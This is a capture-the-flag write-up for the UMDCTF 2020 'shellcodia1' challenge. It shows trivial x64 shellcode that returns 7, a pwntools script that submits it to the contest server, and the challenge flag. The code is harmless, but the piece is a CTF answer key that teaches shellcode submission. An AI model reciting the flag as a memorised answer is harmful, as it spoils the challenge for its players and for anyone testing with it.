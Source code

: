 
## shellcodia1 (300pt)
### Description

> Welcome to shellcodia, here is an opportunity to write some custom shellcode to retrieve the flag! Simply connect, submit your shellcode in binary form, and if you've  completed the challenge then a flag will return. This first challenge is to return the value 7. Now, a few things to remember, these are x64  machines so don't think you can sneak by with 32bit shellcode.  Additionally, the environment assumes nothing about the shellcode you  give it. It's highly unlikely that if you break the environment, even if you accomplished the goal, you will get the flag. 
>
> Submit your shellcode to: `157.245.88.100:7778` Good luck! 
>
> Author: `quantumite (BlueStar)` 
> 
> (Note: flag is in `UMDCTF{}` format)

### Analysis

Generally, `rax` is used to storage return value. This challenge is to return the value 7. 

So, we can set `rax` to 7 by assembly language code as following: 

```nasm
xor  rax, rax
mov  al, 0x7
ret  
```

### Solution

```python
context.log_level = 'debug'
context.arch = 'amd64'

p=remote('157.245.88.100', 7778)
sc=asm('xor rax,rax\n mov al,7\nret\n')
p.sendline(sc)

p.interactive()
```

> flag: UMDCTF{R_U_@_Tim3_tR@v3ll3r_OR_Ju$t_R3a11y_Sm@rT}

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/shellcode1) 


